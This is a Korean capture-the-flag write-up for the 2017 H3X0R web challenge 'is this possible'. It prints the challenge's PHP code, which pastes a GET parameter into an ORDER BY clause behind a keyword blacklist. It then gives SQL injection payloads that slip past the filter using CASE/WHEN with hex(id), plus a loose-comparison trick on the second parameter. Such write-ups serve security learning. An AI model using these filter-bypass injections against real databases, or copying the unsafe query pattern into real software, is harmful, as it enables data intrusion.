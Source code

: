 ================================================================================================================
[2017_H3X0R] [WEB] is this possible
================================================================================================================

|

코드 분석
================================================================================================================

php 소스코드 문제는 아래와 같다.

.. code-block:: php

    <?php
        error_reporting(0);
        require_once 'config.php';
        if(isset($_GET['go'])){
            $filter = "/\'|\"|`|,|<|>|&|=|;|#|or|and|union|select|into|info|sc|in|like|regex|rand|limit|prob|0x|0b/i";
            if(preg_match($filter, $_GET['go']))
                exit("403 forbidden");
            if(preg_match("/\s/", $_GET['go']))
                exit("whitespace nono");
            $i = 0;
            $conn = mysqli_connect(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
            $query = mysqli_query($conn, "SELECT * FROM `go` ORDER BY ".$_GET['go']." DESC");
            echo "<table style='border: 1px solid black;'>";
            echo "<tr><th>id</th></tr>";
            while($row = mysqli_fetch_array($query)){
                $res[$i++] = $row['id'];
                echo "<tr><td>{$row['id']}</td></tr>";
            }
            echo "</table><hr>";
            if($res[0] === "admin" && $res[1] === "19990301" && $res[2] === "guest"){
                if((int)$res[1] == $_GET['foo'] && strlen($_GET['foo']) > 10){
                    solve();
                }
            }
        }
        highlight_file(__FILE__); 
    ?>

문제를 볼 때 항상 입력값과 출력값을 염두해두자.
입력값은 go파라미터와 foo파라미터이고, 출력값은 solve()이다.

출력값인 solve()까지 가기 위해서는 입력한 값에 대한 조건문이 5개 맞아야 한다.

1) go 파라미터 입력값을 통한 출력값 첫번째 줄이 admin이어야 하고,
2) 출력값 두번째 줄이 19990301이어야 하고,
3) 출력값 세번째 줄이 guest여야 한다.
4) go 파라미터를 통한 출력값 두번째 줄을 int 적용할 경우, foo 파라미터 입력 값과 같아야 하며,
5) foo 파라미터의 스트링 길이는 10이상이어야 한다.

일단 go 파라미터에 1 값을 입력하고 어떻게 출력되는 지 확인한다.

.. image:: ../_images/20170730-1.png
    :align: center


다음과 같이 테이블이 출력된다. 해당 테이블을 위의 조건과 만족하도록 출력하여야 하는데, 많은 문자열을 preg_match로 필터링하고 있다.
admin, 19990301, guest 순으로 출력을 하기 위해서는 문자열 길이로 sorting해도 안되고, 문자정렬 순위로 sorting해도 불가능하다.
해당 문자열을 int값으로 출력하여 그 값을 비교하여 하나씩 sorting 하도록 하자.
sort by절에 go 파라미터가 끼어 있으므로, case 컬럼명 when 조건문 then 저장구간 else구문을 이용하여 하나씩  조건을 성립해나가도록 한다.

|

문제 풀이
================================================================================================================

먼저 admin을 첫번째 줄에 출력하도록 한다. in이 문자열로 필터링되기 때문에 int값으로 비교하여 출력하도록 한다.

.. code-block:: sql

   case(hex(id)%2b0)when(61646)then(1)else(2)end

두번째 줄의 경우 19990301이 출력되도록 한다.

.. code-block:: sql

   case(hex(id)%2b0)when(61646)then(1)else(case(id)when(19990301)then(1)end)end

위에서 언급한 3가지 조건이 만족하였으며, foo 파라미터에 대한 2가지 조건을 만족해야한다.
문자열 길이가 10이고, int로 변환하였을 경우 19990301로 변환할 수 있는 방법은 소수점을 이용할 수 있다.

.. code-block:: sql

    19990301.00
    
모든 조건을 만족시켜 플래그를 획득할 수 있다.
